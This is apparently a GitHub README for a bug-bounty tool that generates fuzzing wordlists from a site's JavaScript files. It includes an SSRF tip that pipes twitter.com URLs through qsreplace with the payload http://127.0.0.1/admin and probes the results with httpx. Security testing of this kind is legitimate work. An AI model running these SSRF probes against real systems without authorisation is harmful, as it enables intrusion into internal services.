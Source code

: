 # wordlistgen
Generates target specific word lists for Fuzzing with fuff

**Version 1.0**


### Install

**`$ go get -u github.com/ethicalhackingplayground/wordlistgen`**

**`$ go get github.com/003random/getJS`**


![GitHub Logo](carbon.png)


### Generate wordlist
**`$ echo "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d "https://www.twitter.com"`**

![GitHub Logo](carbon2.png)

The use ffuf


**Then get creative with FFuF or https://github.com/tomnomnom/qsreplace**

****
### SSRF TIP2:


#### Generate Wordlist
**`$ cat "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d"www.twitter.com" | tee wordlist`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=FUZZ
www.twitter.com/v/latest/72x72//?url=FUZZ
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=FUZZ
www.twitter.com/articles/18311/?url=FUZZ
```

##### Replace Variables with Payload
**`$ cat wordlist | qsreplace http://127.0.0.1/admin | tee -a hosts`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/v/latest/72x72//?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/articles/18311/?url=http%3A%2F%2F127.0.0.1%2Fadmin
```

#### Use HTTPX to keep track of the codes,titles
**`$ cat hosts | httpx -title -status-code`**

#### I hope you get a bounty with this technique.
****


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

